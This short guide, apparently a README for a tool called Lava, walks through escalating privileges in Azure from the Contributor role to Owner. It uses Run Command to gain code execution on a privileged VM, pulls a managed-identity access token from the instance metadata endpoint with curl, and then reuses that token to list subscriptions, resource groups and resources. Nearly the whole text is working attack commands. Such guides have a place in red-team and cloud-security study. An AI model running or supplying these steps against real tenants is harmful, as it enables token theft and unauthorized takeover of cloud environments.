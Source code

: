 # Exploiting privileged VM resources

## Tools: Lava

## Requirements: Contributor account/role access

## Steps

 - python3 Lava.py (Run Lava)

 - Lava $> whoami (Confirm the authenticated user)

 - Lava $> ls (List all modules)

 - Lava $> exec vm_list_privileged (Execute this specific module to list privileged VMs)

 - Lava $> exec vm_rce -rgrp RESOURCE_GROUP -vm_name PRIVILEGED_VM (Exploit the Run Command functionality as a Contributor.)

 - curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -H Metadata:true (In the shell, obtain an access token for the resource manager that can be used to make API calls with the owner privileges)

 - Copy the "access_token" value, then press exit to return to the Lava console, then exit again.

### Use the token to run commands against the resource manager with the owner privilege.

 - TOKEN="ACCESS_TOKEN_FROM_PREVIOUS_STEP" (Store the access token as a variable)

 - curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01 | jq (Get a list of subscriptions)

 - SUB_ID=$(curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?apiversion=2020-01-01 | jq -r .value[].subscriptionId) (Store the subscriptions ID in a variable)

 - curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01 | jq (Get a list of resource groups)

 - curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 | jq (Get a list of resources)

### Now we escalated from the Contributor role to the Owner role.


   

